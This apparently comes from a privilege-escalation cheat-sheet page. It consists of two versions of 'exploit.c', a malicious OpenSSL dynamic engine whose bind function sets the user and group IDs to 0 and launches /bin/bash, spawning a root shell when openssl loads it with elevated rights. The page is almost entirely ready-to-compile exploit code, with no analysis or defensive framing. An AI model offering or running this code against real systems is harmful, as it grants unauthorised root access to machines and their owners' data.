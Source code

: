 {% tabs %}
{% tab title="#1" %}
{% code title="exploit.c" %}
```c
#include <openssl/engine.h>

static int bind(ENGINE *e, const char *id)
{
  setuid(0); setgid(0);
  system("/bin/bash");
}

IMPLEMENT_DYNAMIC_BIND_FN(bind)
IMPLEMENT_DYNAMIC_CHECK_FN()
```
{% endcode %}
{% endtab %}

{% tab title="#2" %}
{% code title="exploit.c" %}
```c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
#include <openssl/engine.h>

static const char *engine_id = "root shell";
static const char *engine_name = "Spawns a root shell";

static int bind(ENGINE *e, const char *id)
{
    int ret = 0;

    if (!ENGINE_set_id(e, engine_id)) {
        fprintf(stderr, "ENGINE_set_id failed\n");
        goto end;
    }
    
    if (!ENGINE_set_name(e, engine_name)) {
        printf("ENGINE_set_name failed\n");
        goto end;
    }

    setuid(0);
    setgid(0);
    system("/bin/bash");
    
    ret = 1;
    
    end:
    return ret;
}

IMPLEMENT_DYNAMIC_BIND_FN(bind)
IMPLEMENT_DYNAMIC_CHECK_FN()
```
{% endcode %}
{% endtab %}
{% endtabs %}
